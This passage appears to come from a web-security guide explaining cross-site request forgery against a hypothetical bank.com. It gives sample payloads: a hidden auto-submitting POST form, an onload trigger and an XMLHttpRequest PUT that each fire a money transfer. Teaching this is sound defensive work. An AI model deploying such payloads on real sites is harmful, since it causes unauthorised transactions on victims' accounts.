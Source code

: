 If this image tag were included in the email, Alice wouldn't see
anything. However, the browser *will still* submit the request to
bank.com without any visual indication that the transfer has taken
place.

A real life example of CSRF attack on an application using GET was a
[uTorrent
exploit](https://www.ghacks.net/2008/01/17/dos-vulnerability-in-utorrent-and-bittorrent/)
from 2008 that was used on a mass scale to download malware.

#### POST scenario

The only difference between GET and POST attacks is how the attack is
being executed by the victim. Let's assume the bank now uses POST and
the vulnerable request looks like this:

`POST http://bank.com/transfer.do HTTP/1.1`

`acct=BOB&amount=100`

Such a request cannot be delivered using standard A or IMG tags, but can
be delivered using a FORM tags:

	<form action="http://bank.com/transfer.do" method="POST">

	<input type="hidden" name="acct" value="MARIA"/>
	<input type="hidden" name="amount" value="100000"/>
	<input type="submit" value="View my pictures"/>

	</form>

This form will require the user to click on the submit button, but this
can be also executed automatically using JavaScript:

	<body onload="document.forms[0].submit()">

	`<form...`

#### Other HTTP methods

Modern web application APIs frequently use other HTTP methods, such as
PUT or DELETE. Let's assume the vulnerable bank uses PUT that takes a
JSON block as an argument:

	`PUT http://bank.com/transfer.do HTTP/1.1`

	`{ "acct":"BOB", "amount":100 }`

Such requests can be executed with JavaScript embedded into an exploit
page:

	<script>
	function put() {
	    var x = new XMLHttpRequest();
	    x.open("PUT","http://bank.com/transfer.do",true);
	    x.setRequestHeader("Content-Type", "application/json");
	    x.send(JSON.stringify({"acct":"BOB", "amount":100})); 
	}
	</script>
